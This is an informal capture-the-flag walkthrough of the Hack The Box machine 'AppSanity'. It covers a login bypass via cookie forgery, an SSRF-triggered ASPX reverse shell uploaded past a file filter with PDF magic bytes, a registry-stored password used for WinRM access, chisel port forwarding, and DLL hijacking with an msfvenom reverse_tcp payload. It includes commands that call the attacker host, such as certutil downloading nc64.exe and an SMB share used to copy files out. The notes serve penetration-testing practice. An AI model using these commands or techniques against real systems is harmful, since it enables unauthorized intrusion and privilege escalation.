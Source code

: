 # AppSanity -htb(Compi)
(DLL hijack)


nmap:
	80, 443,5985 (WinRM is active)

Dirb:
	/signin and /signup

		created a new chao user / chao@neil.com / chaoneil1

Subdomain:
	portal.medigi.htb
		requires login and doctor id


---

Making a normal user DOCTOR:
	in the meddigi site , we can register ourselves as a doctoc using burpsuit.
	Intercent the req and change the acc_type to 2.

	After that take the access_token and create a new cookie using firefox dev tool on the portal.meddidig.htb login page and and will bypass the login screen.

This grants us access to the MedDigi Doctor Panel.

---

*****MedDigi Doctor Panel ENUM:
	in a panel named IssuePrescriptions , there is a SSRF vuln.
	Use http://localhost:8080 on the link and it will show you a paitent's pdf.
	Thru this attack vector we can exectute our revershell. 





# Bypass File Upload Restrictions using Magic Bytes
https://youtu.be/KOVPY6zYryM?si=IeSQibMzjPYUMN7_
---
Make a empty text file first and then turn that file into pdf(use online tool)

Go to burp and capture the upload req.
Take the pdf header content starting from magic bytes till the end of file line (EOF).

Now we will capture the req again but this time the file will be aspx rev shell, 
Capture the req and add the magicbyte and pdf header after the EOF of your aspx file and foreward the req. 
And congrats , you have bypassed the pdf upload and uploaded a aspx rev shell.



**EDIT**:
	the prev method didnt work.
	I just added this `%PDF-1.5` to the shell.aspx file and changed the content-type header to application/pdf and the rev shell worked.

Rev shell trigger path:
`http://127.0.0.1:8080/ViewReport.aspx?file=a606b484-bd29-4b81-bbc7-cb36cc89d8dd_shell.aspx`
have to wait 10 secs for the connection to be complete.

---

USER ENUM: (SHELL)
	Got userflag on the same place . Desktop.

---

**PRIV ESC ENUM:

There is a sus .dll file on inetpub(default location for IIS sites). After opening it , i find it mentioned a db. SUS indeed. but to fully scan it or view it i need a software called DnSpy.
so i have to cpy it to my kali machine.

check open/active connections/ports:
	`netstat -aon

To copy files from windows to kali:
	on kali: (create a shared folder named folder in downloads and make it accesable by other networks)
	
`sudo impacket-smbserver folder ~/Downloads -smb2support  
	
on windows: (using the `\\kali-ip\share-name` format in Windows):
`copy ExaminationManagement.dll \\myKaliIP\\folder\ExaminationManagement.dll


After copying now we scan the .dll file.


**Scan with DnSPY**:
	so now i am going to copy the dll file from my kali machine to my host windows machine to properly use dnspy.


	registry key values(it shows you where the password is on the windows machine):
		HKEY_LOCAL_MACHINE\Software\MedDigi  
	    EncKey    REG_SZ    1g0tTh3R3m3dy!!

So this must the the another user devdoc in the machine.

Using EVIL - WinRM i tried to cnnect and it works:
	`evil-winrm -u devdoc -i 10.10.11.238 

This the required lateral movement for this machine.

---

***devdoc ENUM:**   Dll hijacking start.
--
Since we are devdoc user we can go to a previously blocked path.
ReportManagement.exe file is inetetesting. Running Strings on it reveals info. port 100.

Immediately i see chisel.exe after login.
Chisel is a fast TCP/UDP tunnel, transported over HTTP mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.


**port forward with chisel.**:
	`chisel server --reverse --port 4444 (on kali) do this first.
	`./chisel.exe client 10.10.14.10:4444 R:10000:127.0.0.1:100 (on windows)

after doing this , there was a port 100 open. Now since we port forwareded it ,
we can access that service on our local kali machine with nc:
 `nc 127.0.0.1 10000`
	type help and it will list a 'upload' function. We can abuse/dll hijack the upload fucntion.
	 So we place a reverse shell dll file in the reportmangement libraries folder that will be run as root when someone 'uploads' a file from the service, the reverse shell must be named externalupload.dll to pop .

So we need to craft a malicious reverse shell dll first.
	`msfvenom -p windows/x64/shell/reverse_tcp -f dll LHOST=10.10.14.10 LPORT=6666 > externalupload.dll`

And using that same payload , we need to start a meterpreter multi-handler:
	`set PAYLOAD windows/x64/shell/reverse_tcp`

Now we need to put that .dll file into the 'Libraries' folder of 'ReportManagement'.

Keep in mind, the .dll name should be `externalupload.dll`. Ad this was the file name that is needed for the dll hijack to work. We know this by running the `strings` command on 'ReportManagement.exe' on kali. 

---

**Getting SHELL as ADMIN**:
--

After doing all the above steps.
Turn on the msf meterpreter lisetner
Upload the .dll file into the path.
(on kali)Start the service : `nc 127.0.0.1 10000`:
		`upload fakefile
		`Attempting to upload to external source`
This prompt will appear.

At the same time on your listener, you will get a ADMIN shell.

GG

PWNed . Hard it was.



**Articles that helped:
https://ap3x.github.io/posts/pivoting-with-chisel/
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking#creating-and-compiling-dlls

command to get files from kali machine from windows.
`certutil.exe -urlcache -f http://10.10.14.10/nc64.exe nc64.exe


cd C:\'Program Files'\ReportManagement\Libraries
cd C:\Users\devdoc\Documents

